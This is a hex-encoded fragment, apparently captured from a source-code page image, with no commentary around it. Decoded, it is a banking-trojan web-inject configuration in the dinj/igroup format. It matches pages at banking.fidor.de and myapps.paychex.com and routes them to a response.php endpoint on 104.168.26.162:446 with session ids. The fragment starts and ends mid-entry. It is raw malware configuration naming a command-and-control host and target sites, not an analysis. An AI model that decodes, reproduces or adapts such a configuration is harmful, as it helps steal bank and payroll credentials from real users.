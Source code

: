 74 64 61 74 61 2E 63 6F 6D 2F 2A 3C 2F 6C 6D 3E
0A 3C 68 6C 3E 68 74 74 70 73 3A 2F 2F 31 30 34
2E 31 36 38 2E 32 36 2E 31 36 32 3A 34 34 36 2F
72 65 73 70 6F 6E 73 65 2E 70 68 70 3F 73 3D 31
35 34 39 38 38 37 39 34 39 35 32 39 30 37 35 26
69 64 3D 4C 76 64 48 55 66 69 63 56 4A 62 48 52
47 69 51 51 6E 6A 6E 3C 2F 68 6C 3E 0A 3C 70 72
69 3E 31 30 30 3C 2F 70 72 69 3E 0A 3C 73 71 3E
32 3C 2F 73 71 3E 0A 3C 69 67 6E 6F 72 65 5F 6D
61 73 6B 3E 2A 2E 6A 73 2A 3C 2F 69 67 6E 6F 72
65 5F 6D 61 73 6B 3E 0A 3C 69 67 6E 6F 72 65 5F
6D 61 73 6B 3E 2A 2E 63 73 73 2A 3C 2F 69 67 6E
6F 72 65 5F 6D 61 73 6B 3E 0A 3C 72 65 71 75 69
72 65 5F 68 65 61 64 65 72 3E 2A 74 65 78 74 2F
68 74 6D 6C 2A 3C 2F 72 65 71 75 69 72 65 5F 68
65 61 64 65 72 3E 0A 3C 2F 64 69 6E 6A 3E 0A 3C
2F 69 67 72 6F 75 70 3E 0A 3C 69 67 72 6F 75 70
3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C 6D 3E 2A 2F 72
63 72 64 2F 31 35 34 33 35 31 38 37 35 39 34 31
34 38 33 30 2A 3C 2F 6C 6D 3E 0A 3C 68 6C 3E 68
74 74 70 73 3A 2F 2F 31 30 34 2E 31 36 38 2E 32
36 2E 31 36 32 3A 34 34 36 2F 72 65 73 70 6F 6E
73 65 2F 72 63 72 64 2E 70 68 70 3F 73 3D 31 35
34 33 35 31 38 37 35 39 34 31 34 38 33 30 3C 2F
68 6C 3E 0A 3C 70 72 69 3E 31 30 30 3C 2F 70 72
69 3E 0A 3C 73 71 3E 32 3C 2F 73 71 3E 0A 3C 2F
64 69 6E 6A 3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C 6D
3E 2A 62 61 6E 6B 69 6E 67 2E 66 69 64 6F 72 2E
64 65 2F 73 6D 61 72 74 2D 61 63 63 6F 75 6E 74
3C 2F 6C 6D 3E 0A 3C 68 6C 3E 68 74 74 70 73 3A
2F 2F 31 30 34 2E 31 36 38 2E 32 36 2E 31 36 32
3A 34 34 36 2F 72 65 73 70 6F 6E 73 65 2E 70 68
70 3F 73 3D 31 35 34 33 35 31 38 37 35 39 34 31
34 38 33 30 26 69 64 3D 47 34 4F 64 51 4B 5A 5A
34 66 50 66 47 6D 77 54 71 4E 41 44 3C 2F 68 6C
3E 0A 3C 70 72 69 3E 31 30 30 3C 2F 70 72 69 3E
0A 3C 73 71 3E 32 3C 2F 73 71 3E 0A 3C 72 65 71
75 69 72 65 5F 68 65 61 64 65 72 3E 2A 74 65 78
74 2F 68 74 6D 6C 2A 3C 2F 72 65 71 75 69 72 65
5F 68 65 61 64 65 72 3E 0A 3C 2F 64 69 6E 6A 3E
0A 3C 2F 69 67 72 6F 75 70 3E 0A 3C 69 67 72 6F
75 70 3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C 6D 3E 2A
2F 72 63 72 64 2F 31 35 33 38 34 39 36 38 34 34
33 36 37 31 39 38 2A 3C 2F 6C 6D 3E 0A 3C 68 6C
3E 68 74 74 70 73 3A 2F 2F 31 30 34 2E 31 36 38
2E 32 36 2E 31 36 32 3A 34 34 36 2F 72 65 73 70
6F 6E 73 65 2F 72 63 72 64 2E 70 68 70 3F 73 3D
31 35 33 38 34 39 36 38 34 34 33 36 37 31 39 38
3C 2F 68 6C 3E 0A 3C 70 72 69 3E 31 30 30 3C 2F
70 72 69 3E 0A 3C 73 71 3E 32 3C 2F 73 71 3E 0A
3C 2F 64 69 6E 6A 3E 0A 3C 64 69 6E 6A 3E 0A 3C
6C 6D 3E 68 74 74 70 73 3A 2F 2F 6D 79 61 70 70
73 2E 70 61 79 63 68 65 78 2E 63 6F 6D 2F 2A 5F
72 65 6D 6F 74 65 2F 2A 3C 2F 6C 6D 3E 0A 3C 68
6C 3E 68 74 74 70 73 3A 2F 2F 31 30 34 2E 31 36
38 2E 32 36 2E 31 36 32 3A 34 34 36 2F 72 65 73
70 6F 6E 73 65 2E 70 68 70 3F 73 3D 31 35 33 38
34 39 36 38 34 34 33 36 37 31 39 38 26 69 64 3D
56 6A 47 34 52 4D 7A 5A 31 48 58 39 68 74 77 63
30 42 77 35 3C 2F 68 6C 3E 0A 3C 70 72 69 3E 31
30 30 3C 2F 70 72 69 3E 0A 3C 73 71 3E 32 3C 2F
73 71 3E 0A 3C 72 65 71 75 69 72 65 5F 68 65 61
64 65 72 3E 2A 74 65 78 74 2F 68 74 6D 6C 2A 3C
2F 72 65 71 75 69 72 65 5F 68 65 61 64 65 72 3E